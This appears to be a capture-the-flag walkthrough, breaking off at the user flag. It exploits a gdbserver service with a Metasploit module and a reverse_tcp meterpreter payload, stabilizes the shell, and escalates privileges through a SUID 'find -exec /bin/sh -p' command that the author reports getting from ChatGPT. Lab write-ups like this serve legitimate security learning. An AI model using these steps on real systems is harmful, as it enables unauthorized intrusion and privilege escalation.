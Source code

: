 ![](https://i.imgur.com/oHvGUSi.png)

- from the `status name` and the `command line` output i Guessed that the service running will be `gdbserver`
- now i searched for ways to exploit it:

![](https://i.imgur.com/16XP9NU.png)

[rapid7](https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb_server_exec/)

![](https://i.imgur.com/T4wVNAa.png)

- after following the steps i got a meterpreter session:

![](https://i.imgur.com/24RFizk.png)

```
make sure you set target to :
	1   x86_64

and set payload to:
	set payload linux/x64/meterpreter/reverse_tcp 
```

- i enter into shell mode and stabilize the shell :

![](https://i.imgur.com/l6PLQf7.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 40 cols 160
```

- so now we have a shell as `hudson` but that not what we want but there is another user that we can escalate privilege to `carlos`

- so i we need to look for files with `SUID` bit set owned by `carlos` :
```bash
find / -type f -perm -4000 -user carlos 2>/dev/null
```

![](https://i.imgur.com/p6p5RJO.png)

- so i ask `chatgpt` again for help:

![](https://i.imgur.com/BteXVIr.png)

- it didn't work so i told `chatgpt` and he generated a new one:
```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![](https://i.imgur.com/ut9hLsx.png)

- `BANKAI` it works now we have the user `carlos` and can cat the `user flag` that is in carlos Directory:
